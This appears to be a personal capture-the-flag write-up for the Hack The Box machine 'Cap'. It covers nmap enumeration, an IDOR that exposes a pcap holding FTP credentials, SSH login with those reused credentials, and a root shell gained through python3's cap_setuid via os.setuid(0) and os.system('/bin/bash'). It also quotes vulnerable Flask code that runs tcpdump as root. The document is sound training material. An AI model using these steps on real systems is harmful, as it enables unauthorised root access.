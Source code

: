 # Cap
Box: https://app.hackthebox.com/machines/Cap
## Enumeration
```bash
# Nmap 7.92 scan initiated Sun Jan  2 19:45:26 2022 as: nmap -sC -sV -oA nmap/scan 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.023s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 02 Jan 2022 08:46:45 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <SNIP...>
|     </body>
|_    </html>
|_http-title: Security Dashboard
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port80-TCP:V=7.92%I=7%D=1/2%Time=61D1662E%P=x86_64-pc-linux-gnu%r(GetRe
SF:quest,2FE5,"HTTP/1\.0\<SNIP...>\n");
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jan  2 19:47:36 2022 -- 1 IP address (1 host up) scanned in 130.13 seconds
```
- Notice ftp is open, no anonymous login allowed
- Moving onto http
![[Pasted image 20220102195413.png]]
- Presented with a dashboard and I notice I am already logged in
- Thinking that this is odd, I check stored cookies, nothing there
- Also cannot logout, box must just be designed like this
- Clicking on the options on the left side of the dashboard the IP config and Network status options look interesting
- The machine must be executing ifconfig and netstat respectively to retreive that information
- Can't find a way of poisoning those values to gain RCE
- Clicking on the Seurity Snapshot section, lets me download a pcap file
![[Pasted image 20220103140741.png]]
- Opening the file, looks llike nothing was captured
- Changing the value from `data/1` to `data/0` in the url shows me a page that looks to have data
- Thinking maybe this is an IDOR vulnerability
- Opening this file in wireshak shows data this time
![[Pasted image 20220103141144.png]]
- Clicking on statistics > Conversations to get an idea of who is talking to who, I see there is only one conversation and it is on a 192.168.196.0 network, nothing to do with any of my traffic as I am on a 10.10... network
- Heading over to the TCP tab I notice all but one TCP stream is talking on port 80 and they all seem to containt exactly 10 packets
![[Pasted image 20220103141647.png]]
- This TCP stream that is on a different port and of different length deffinetly stands out
- Following this stream, it looks like someone was trying to log into ftp and we now have a user and their password
![[Pasted image 20220103142022.png]]
- Also looks like nathan tried to access a file notes.txt, that may be interesting
## Some Exploitation
- Using his details to try loging into ftp again was successful
```bash
┌──(tom㉿acer-computer)-[~/htb/cap]
└─$ ftp 10.10.10.245                                                                                    
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:tom): nathan
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ^C
ftp> 
```
- After switching to binary mode I was able to retreive the user flag
## Stuck on more enumeration
- Trying to find something else to go off i notice the search feature on the dashboard
- I try putting some bad characters in to see if I can get some kind of error
- I was uncuesseful
![[Pasted image 20220103144500.png]]
- I open burp suite and try to see if instead of navigating to `/netstat` i can do something like `/whoami`. That was unsuccessful
- I try going back to the Security Snapshot page to see if I can get any more pcap files... no luck
- I have a feeling that the way forward is to find that notes.txt file, however, I unfortunatly cannot find the transmission of notes.txt anywhere in the network traffic
- **Hint From Walkthrough - ssh using nathans credentials**
## Priv esc
- Was able to ssh into the box as nathan using his ftp credentials
- I run `cat /etc/passwd | grep sh$` to try and identify any other users. Nathan is the only one other than root
- running `sudo -l` shows that nathan is not a part of the sudoers file
- I try reusing nathans password to switch to root, no luck
- Looking at the websites source code, I identify the framework as flask so therefore written in python
- This function stands out to me, initally because of the comment left behind but also the fact that python is executing an os command as uid 0 meaning it is executing as root. Just what I need for privilege escalation
```python
@app.route("/capture")
@limiter.limit("10 per minute")
def capture():

        get_lock()
        pcapid = get_appid()
        increment_appid()
        release_lock()

        path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
        ip = request.remote_addr
        # permissions issues with gunicorn and threads. hacky solution for now.
        #os.setuid(0)
        #command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
        command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
        os.system(command)
        #os.setuid(1000)

        return redirect("/data/" + str(pcapid))
```
- I just need to work out how I can inject my own commands into this command
- Unable to work out how to inject my own code I consulted the walkthrough again
- **Walkthough hint - run linpeas**
- Turns out python 3.8 has cap_setuid set, meaning we can just set our uid in python to 0 and then drop to a shell
```python
nathan@cap:~$ python3
Python 3.8.5 (default, Jan 27 2021, 15:41:15) 
[GCC 9.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import os
>>> os.setuid(0)
>>> os.system('/bin/bash')
root@cap:~# 
```
- Priv esc turned out to be relatively simple, I definely overthought it

## Review/Take aways
- I should have gone back and reviewed the nmap scan after getting nathans credentials, I perhaps would have then remembered that ssh is running and attempted to log in with his credentials
- After getting stuck, not being able to find a way of poisoning the values to be executed by the server I should have run linpeas instead of consulting the walkthrough for help
- I could have also realised that for a user to use the `setuid` method to run something as root the user either has to be root or have the setuid_cap

